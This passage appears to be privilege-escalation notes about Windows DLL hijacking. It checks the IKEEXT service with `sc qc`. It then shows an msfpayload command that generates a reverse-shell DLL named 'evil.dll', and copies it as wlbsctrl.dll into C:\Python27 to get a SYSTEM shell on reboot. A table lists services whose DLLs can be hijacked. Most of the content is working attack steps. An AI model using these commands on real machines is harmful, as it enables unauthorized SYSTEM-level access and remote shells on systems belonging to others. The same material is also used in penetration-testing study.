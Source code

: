     # Before we go over to action we need to check the status of the IKEEXT service. In this case we can see
    it is set to "AUTO_START" so it will launch on boot!

    C:\Users\user1\Desktop> sc qc IKEEXT

    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: IKEEXT
            TYPE               : 20  WIN32_SHARE_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : IKE and AuthIP IPsec Keying Modules
            DEPENDENCIES       : BFE
            SERVICE_START_NAME : LocalSystem

    # Generate a malicious DLL payload
    msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' D > /root/Desktop/evil.dll

    # Copy to target
    copy evil.dll C:\Python27\wlbsctrl.dll
    
    # After transferring the DLL to our target machine all we need to do is rename it to wlbsctrl.dll and move it to "C:\Python27". Once this is done we need to wait patiently for the machine to be rebooted (or we can try to force a reboot) and we will get a SYSTEM shell.

### Vulnerable Windows services

Vulnerable Windows Services

| Windows Version | Service | Vulnerable DLL |
| :--- | :--- | :--- | :--- |
| Windows XP | Automatic Updates (wuauserv) | ifsproxy.dll |
| - | Remote Desktop Help Session Manager (RDSessMgr) | SalemHook.dll |
| - | Remote Access Connection Manager (RasMan) | pbootp.dll |
| - | Windows Management Instrumentation (winmgmt) | wbemcore.dll |
| - | Audio Service (STacSV) | SFFXComm.dll and SFCOM.DLL |
| - | Intel(R) Rapid Storage Technology (IAStorDataMgrSvc) | DriverSim.dll |
| - | Juniper Unified Network Service(JuniperAccessService) | dsLogService.dll |
| - | Encase Enterprise Agent | SDDisk.dll |
| Windows 7 (32/64) | IKE and AuthIP IPsec Keying Modules (IKEEXT) | wlbsctrl.dll |
| Windows 8 | NA | NA |
